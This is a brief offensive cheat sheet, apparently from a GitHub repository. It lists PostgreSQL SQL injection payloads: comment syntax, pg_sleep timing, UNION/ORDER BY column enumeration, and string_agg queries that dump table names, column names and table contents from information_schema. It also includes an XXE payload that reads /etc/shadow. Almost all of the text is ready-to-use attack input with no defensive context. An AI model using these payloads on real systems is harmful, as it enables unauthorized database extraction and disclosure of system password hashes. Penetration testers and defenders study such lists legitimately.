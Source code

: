 <span style="color:#21C587">&#35;</span><strong> PgSQL</strong><br>
```
- coments
--, /**/

- length check
length()

- version check
version()

- like
=, in()

- string to hex
ascii()

- sleep func
pg_sleep()

- add string
||, concat(), string_agg()

- Number of columns
' order by 1 --
' order by 2 --
' order by 3 --
' union null --
' union null, null --
' union null, null, null --

- limit
limit <count>
limit <count> offset <skip>

- etc
select current_database()
select string_agg(table_name, ',') from information_schema.tables
string_agg(column_name, ','), null, null, null from information_schema.columns where table_name = <table_name>
select string_agg(<column_name>), null, null, null from <table_name>
```

---
## XXE (Original)<br>
<span style="color:#21C587">&#35;</span><strong> XXE Original</strong><br>
```xml
<!--?xml version="1.0" ?-->
<!DOCTYPE burp [<!ENTITY burp SYSTEM "file:///etc/shadow"> ]>
<lfi>&burp;</lfi>
```
